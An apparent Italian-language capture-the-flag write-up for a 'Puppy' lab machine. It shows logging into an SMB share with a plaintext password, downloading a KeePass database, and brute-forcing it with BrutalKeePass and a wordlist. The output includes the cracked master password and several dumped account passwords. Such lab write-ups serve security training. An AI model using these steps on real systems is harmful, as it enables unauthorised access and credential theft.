 ## Read DEV

Si accede al contenuto della share **DEV**.

```bash

$ impacket-smbclient 'levi.james':'KingofAkron2025!'@PUPPY.HTB
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

# shares
ADMIN$
C$
DEV
IPC$
NETLOGON
SYSVOL

# use DEV

# ls
drw-rw-rw-          0  Sun Mar 23 03:07:57 2025 .
drw-rw-rw-          0  Sat Mar  8 11:52:57 2025 ..
-rw-rw-rw-   34394112  Sun Mar 23 03:09:12 2025 KeePassXC-2.7.9-Win64.msi
drw-rw-rw-          0  Sun Mar  9 16:16:16 2025 Projects
-rw-rw-rw-       2677  Tue Mar 11 22:25:46 2025 recovery.kdbx

# get recovery.kdbx

```

Si analizza il file **recovery.kdbx**.

```bash

$ file recovery.kdbx                          
recovery.kdbx: Keepass password database 2.x KDBX

```

> **KeePass** is a free open source password manager.

## Attack to KeePass DB

Si utilizza **BrutalKeePass** per il **brute-forcing** della password che protegge il file `recovery.kdbx`.

> **BrutalKeePass**: [https://github.com/toneillcodes/brutalkeepass/](https://github.com/toneillcodes/brutalkeepass/)

```bash

$ python3 bfkeepass.py -d recovery.kdbx -w /usr/share/wordlists/rockyou.txt -o
[*] Running bfkeepass
[*] Starting bruteforce process...
[!] Success! Database password: liverpool
[>] Dumping entries...
--------------------
[>] Title: JAMIE WILLIAMSON
[>] Username: None
[>] Password: JamieLove2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: ADAM SILVER
[>] Username: None
[>] Password: HJKL2025!
```